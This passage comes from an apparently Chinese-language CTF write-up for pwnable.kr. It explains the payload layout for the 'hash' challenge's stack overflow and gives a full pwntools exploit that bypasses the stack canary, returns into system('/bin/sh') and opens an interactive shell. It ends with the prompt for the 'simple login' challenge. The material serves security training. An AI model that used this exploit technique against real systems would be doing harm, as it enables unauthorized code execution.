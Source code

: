 
最终构造的 Payload 结构就该为：

    ['A' * 512]-[CANARY]-['A' * 12]-[plt_system]-[0]-[p("/bin/sh")]
    
    512bytes + 4bytes + 12bytes + 4bytes + 4bytes + 4bytes = 540bytes
    
    Base64([540bytes]) ==> 720bytes

因为输入的 Base64 字符串存于 `.bss` 段 `0x0804B0E0` 处，所以可以将 `/bin/sh` 字节添加到输入的字符串后面，结合 Payload 的结构将其写到 `0x0804B0E0 + 720` 处，最终 exp 如下：

```python
#!/usr/bin/env python
# coding: utf-8

import os
import re
import time
import random
import urllib2

from pwn import *

# elf = ELF('./hash')
# plt_system = elf.plt['system']
plt_system = 0x08048880

# Local EXP
t = int(time.time())
# p = process('./hash')

# Remote EXP
# date = urllib2.urlopen('http://pwnable.kr').headers['Date']
# t = int(time.mktime(time.strptime(date, '%a, %d %b %Y  %H:%M:%S %Z')))
# t += random.randint(0, 3)
p = remote('127.0.0.1', 9002)

capcha = re.search(r'(-?[\d]+)', p.recvline_regex(r'(-?[\d]{5,})')).group(0)
p.sendline(capcha)

canary = '0x' + os.popen('./hashc {} {}'.format(str(t), capcha)).read()
canary = int(canary, 16)

payload = 'A' * 512 + p32(canary) + 'A' * 12 + p32(plt_system) + p32(0x8048a00) + p32(0x0804B0E0 + 540*4/3)

p.sendline(b64e(payload) + '/bin/sh\0')
p.interactive()
```

### [simple login]

> Can you get authentication from this server?
>
> Download : http://pwnable.kr/bin/login
>
> Running at : nc pwnable.kr 9003
